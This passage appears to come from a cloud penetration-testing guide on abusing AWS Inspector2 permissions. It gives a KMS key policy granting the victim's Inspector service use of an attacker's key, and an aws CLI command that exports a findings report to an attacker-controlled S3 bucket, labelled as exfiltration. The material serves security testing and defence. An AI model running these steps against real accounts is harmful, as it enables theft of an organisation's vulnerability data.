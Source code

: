 ```json
				}
			}
		}
	]
}
```

2. **Create an Amazon KMS key** and attach a policy to it in order to be usable by the victim’s Amazon Inspector:

```json
{
    "Version": "2012-10-17",
    "Id": "key-policy",
    "Statement": [
        {
	    ...
        },
        {
            "Sid": "Allow victim Amazon Inspector to use the key",
            "Effect": "Allow",
            "Principal": {
                "Service": "inspector2.amazonaws.com"
            },
            "Action": [
                "kms:Encrypt",
                "kms:Decrypt",
                "kms:ReEncrypt*",
                "kms:GenerateDataKey*",
                "kms:DescribeKey"
            ],
            "Resource": "*",
            "Condition": {
                "StringEquals": {
                    "aws:SourceAccount": "<victim-account-id>"
                }
            }
        }
    ]
}
```

3. Execute the command to **create the findings report** exfiltrating it:

```bash
aws --region us-east-1 inspector2 create-findings-report --report-format CSV --s3-destination bucketName=<attacker-bucket-name>,keyPrefix=exfiltration_,kmsKeyArn=arn:aws:kms:us-east-1:123456789012:key/1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f
```

* **Potential Impact**: Generation and exfiltration of detailed vulnerability and software reports, gaining insights into specific vulnerabilities and security weaknesses.

#### `inspector2:CancelFindingsReport`, `inspector2:CancelSbomExport`
